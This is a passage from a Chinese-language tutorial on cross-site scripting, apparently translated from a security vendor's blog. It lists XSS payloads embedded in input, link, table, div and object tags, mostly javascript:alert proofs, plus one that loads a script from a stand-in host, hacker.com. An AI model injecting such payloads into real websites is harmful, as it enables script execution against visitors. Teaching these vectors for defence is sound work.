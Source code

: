 ### `<input>` 标签

在一些浏览器中，如果 `<input>` 标签的 `type` 属性被设置成 `image`，那么它便能嵌入脚本。

```html
<!-- <input> 标签 XSS 攻击 -->
<input type="image" src="javascript:alert('XSS');" />
```

### `<link>` 标签

`<link>` 标签通常用于链接外部样式表，但也可以包含脚本。

```html
<!-- <link> 标签 XSS 攻击 -->
<link rel="stylesheet" href="javascript:alert('XSS');" />
```

### `<table>` 标签

`<table>` 和 `<td>` 标签的 `background` 属性可用于引用脚本而不是引用图片。

```html
<!-- <table> 标签 XSS -->
<table background="javascript:alert('XSS')">
  <!-- <td> 标签 XSS -->
  <td background="javascript:alert('XSS')"></td>
</table>
```

### `<div>` 标签

与 `<table>` 和 `<td>` 标签类似，`<div>` 标签也可以通过 `background` 属性嵌入脚本。

```html
<!-- <div> 标签 XSS 攻击 -->
<div style="background-image: url(javascript:alert('XSS'))">
  <!-- <div> 标签 XSS 攻击 -->
  <div style="width: expression(alert('XSS'));"></div>
</div>
```

### `<object>` 标签

`<object>` 标签能用于引入外部网站的脚本。

```html
<!-- <object> 标签 XSS 攻击 -->
<object type="text/x-scriptlet" data="http://hacker.com/xss.html"></object>
```

## 你的网站是否易受跨站脚本攻击？

跨站脚本攻击漏洞是最常见的网站漏洞之一。OWASP 组织（开放网络应用安全工程）在 [OWASP Top 10 2017](https://www.acunetix.com/blog/articles/owasp-top-10-2017/) 一文中将 XSS 漏洞列为第二流行问题。
